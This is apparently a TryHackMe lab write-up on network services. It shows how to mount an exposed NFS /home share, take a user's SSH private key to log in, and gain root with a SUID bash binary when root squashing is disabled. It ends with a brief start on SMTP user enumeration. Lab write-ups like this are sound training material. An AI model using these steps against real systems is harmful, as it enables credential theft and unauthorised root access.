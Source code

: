 showmount -e 10.10.44.48

```
Export list for 10.10.44.48:
/home *
```

sudo mount -t nfs 10.10.44.48:home /tmp/mount/ -nolock => We have mount /home to /tmp/mount.
We can't open the .ssh directory but we can copy it ot differnt localtion.

ssh -i id_rsa cappucino@10.10.44.48

We are in!!

What is root_squash?

By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system. 

Method

We're able to upload files to the NFS share, and control the permissions of these files. We can set the permissions of whatever we upload, in this case a bash shell executable. We can then log in through SSH, as we did in the previous task- and execute this executable to gain a root shell!

# Steps

1. Download given bash binary.
2. sudo chown root bash
3. sudo cp /home/n00bmast3r/TryHackMe/Network_Services_2/bash /tmp/mount/cappucino
4. sudo chmod +xs bash => add the SUID bit permission to the bash executable
5. (SSH) ./bash -p => We are root!

# root.txt

```
THM{nfs_got_pwned}
```

# SMTP

## Enumerating Users from SMTP

The SMTP service has two internal commands that allow the enumeration of users: VRFY (confirming the names of valid users) and EXPN (which reveals the actual address of user’s aliases and lists of e-mail (mailing lists). 

# Metasploit Enum modules for SMTP

